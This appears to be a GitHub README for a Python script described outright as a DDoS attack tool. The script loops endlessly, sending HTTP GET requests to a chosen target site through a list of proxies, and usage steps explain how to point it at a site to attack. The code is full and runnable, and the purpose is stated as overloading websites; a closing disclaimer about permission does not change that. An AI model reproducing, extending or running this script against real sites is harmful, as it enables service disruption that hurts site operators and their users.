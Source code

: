 DDoS Attack Script Using Proxies
This Python script allows you to send HTTP requests through a list of proxy servers for the purpose of conducting DDoS attacks. It is designed to overload target websites by using multiple proxies to distribute the load.
Features
Loads a list of proxies from a specified file.
Sends HTTP GET requests to a target URL using each proxy.
Handles proxy errors and request exceptions.
Displays the response from the target site.
Requirements
Python 3.x
requests library
You can install the requests library using pip:
pip install requests
Usage
Clone the repository or download the script file.
Create a text file named proxy.txt in the same directory as the script.
Open the script and replace URL_TARGET_SITE with the URL of the site you want to attack.
Execute the script using Python:
python your_script_name.py
Replace your_script_name.py with the actual name of your Python file.
Example Code
python
import requests
import time

def load_proxies(file_path):
    with open(file_path, "r") as file:
        proxies = file.readlines()
    proxies = [proxy.strip() for proxy in proxies if proxy.strip()]
    return proxies

def fetch_with_proxy(url, proxy):
    proxy_ip, proxy_port = proxy.split(":")
    proxies = {
        "http": f"http://{proxy_ip}:{proxy_port}",
        "https": f"http://{proxy_ip}:{proxy_port}",
    }

    try:
        response = requests.get(url, proxies=proxies, timeout=10)
        if response.status_code == 200:
            print(f"Successfully accessed the site through proxy: {proxy}")
            print("Site response:")
            print(response.text[:500])  
        else:
            print(f"Failed to access the site through proxy {proxy}. Status code: {response.status_code}")
    except requests.exceptions.ProxyError:
        print(f"Proxy error: {proxy}")
    except requests.exceptions.RequestException as e:
        print(f"Request error through proxy {proxy}: {e}")

def main(url, proxy_file):
    proxies = load_proxies(proxy_file)
    while True:
        for proxy in proxies:
            fetch_with_proxy(url, proxy)
            time.sleep(1)

url = "URL_TARGET_SITE"   # Target site URL
proxy_file = "proxy.txt"  # Your proxy list

main(url, proxy_file)

Important Notes
Ensure that you have permission to conduct DDoS attacks on the target website. Unauthorized use may violate terms of service or local laws and could lead to criminal charges.
The effectiveness of this script depends on the reliability of the proxies used. Some proxies may be slow or unresponsive.
Be cautious with how frequently you send requests, as this may lead to your IP being blocked by the target site.
